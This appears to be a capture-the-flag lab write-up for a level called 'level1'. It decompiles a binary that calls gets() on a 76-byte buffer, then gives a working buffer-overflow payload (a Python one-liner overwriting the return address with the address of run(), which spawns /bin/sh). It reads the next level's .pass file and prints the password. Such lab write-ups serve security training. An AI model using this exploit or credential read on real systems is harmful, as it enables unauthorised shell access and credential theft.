 get the binary on host
* `scp -P 4242 level1@192.168.56.107:./level1 ./binary/level1`

decompile using ghidra\
main fonction is
```c
	void main(void)
	{
		undefined local_50 [76];
		
		gets(local_50);
		return;
	}
```
and this fonction exist too 
```c
	void run(void)

	{
		fwrite("Good... Wait what?\n",1,0x13,stdout);
		system("/bin/sh");
		return;
	}
```

we can use a buffer overflow to call this function
```
(gdb) disas run
	Dump of assembler code for function run:
		0x08048444 <+0>:     push   %ebp
		0x08048445 <+1>:     mov    %esp,%ebp
		0x08048447 <+3>:     sub    $0x18,%esp
		0x0804844a <+6>:     mov    0x80497c0,%eax
		0x0804844f <+11>:    mov    %eax,%edx
		0x08048451 <+13>:    mov    $0x8048570,%eax
		0x08048456 <+18>:    mov    %edx,0xc(%esp)
		0x0804845a <+22>:    movl   $0x13,0x8(%esp)
		0x08048462 <+30>:    movl   $0x1,0x4(%esp)
		0x0804846a <+38>:    mov    %eax,(%esp)
		0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
		0x08048472 <+46>:    movl   $0x8048584,(%esp)
		0x08048479 <+53>:    call   0x8048360 <system@plt>
		0x0804847e <+58>:    leave  
		0x0804847f <+59>:    ret    
	End of assembler dump.
```
`call system("/bin/sh") addr` => 0x08048444\
Using our 76 char array + thoose address we can lauch a new shell.\
This array is `76 char` + `addr run`
* `python -c 'print "a"* 76 + "\x44\x84\x04\x08"' > /tmp/exploit_1; cat /tmp/exploit_1 - | ./level1`

\
We can input our cat
* `cat /home/user/level2/.pass`

and get the pass `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`
